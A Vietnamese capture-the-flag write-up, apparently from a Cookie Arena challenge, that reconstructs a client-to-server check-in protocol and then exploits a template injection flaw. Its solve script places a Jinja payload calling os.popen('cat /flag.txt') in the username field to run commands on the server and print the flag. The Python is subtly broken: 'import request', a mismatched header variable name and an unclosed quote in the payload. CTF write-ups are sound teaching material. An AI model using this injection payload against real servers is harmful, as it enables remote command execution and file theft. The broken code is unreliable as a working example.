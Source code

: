 Từ đây có thể thấy client gửi các thông tin về `username`, `hostname` từ phía client đồng thời cùng với `secret: SecR3TtOken` lên server và được trả về `Logged username hostname`

Từ đây có thể viết 1 đoạn script mô phỏng việc gửi thông tin và nhận thông tin giữa client và server như sau:

```python
import request

url = "http://103.97.125.53:31040"
header = {
    "User-Agent": "Go-http-server/1.1",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;vb3;q=0.7", 
    "Accept-Encoding": "gzip",
    "Content-Type": "application/json",
    "Secret": "SecR3Ttoken"
} 
payload = {
    "username": "SPID3R-MSI\Spid3r",
    "hostname": "Spider-msi"
}

response = requests.post(url, headers=headers, json=payload)
print(response.text)
# Logged SPID3R-MSI\Spid3r Spid3r-msi
```

Vậy thì đã giải quyết xong việc kết nối "nhân tạo" giữa client và server thông qua đoạn script trên
> dựa vào hint mà nếu không đưa ra thì không ai biết mà giải nổi đến từ tác giả `FLAG nằm trên host, tìm cách kết nối đúng và exploit` 

thì bây giờ việc quan trọng nhất sẽ là đi tìm lỗi trên server để dựa vào việc khai thác nó và lấy flag

![](/images/cookie_arena_2/image-20.png)

May thật, thử phát đầu thì dính đét lỗi SSTI luôn, việc cuối cùng chỉ là viết payload để get flag trực tiếp từ server thôi

Script giải:
```python
import request

url = "http://103.97.125.53:31040"
header = {
    "User-Agent": "Go-http-server/1.1",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;vb3;q=0.7", 
    "Accept-Encoding": "gzip",
    "Content-Type": "application/json",
    "Secret": "SecR3Ttoken"
} 
payload = {
    "username": "{{url_for.__globals__.os.__dict__.popen('cat /flag.txt).read()}}",
    "hostname": "Spider-msi"
}

response = requests.post(url, headers=headers, json=payload)
print(response.text)
# Logged CHH{ExtR@Ct_m4CRo_aNd_h@Ck_C2c_d791e9a6f418993651267fbae56e3c46} Spid3r-msi
```

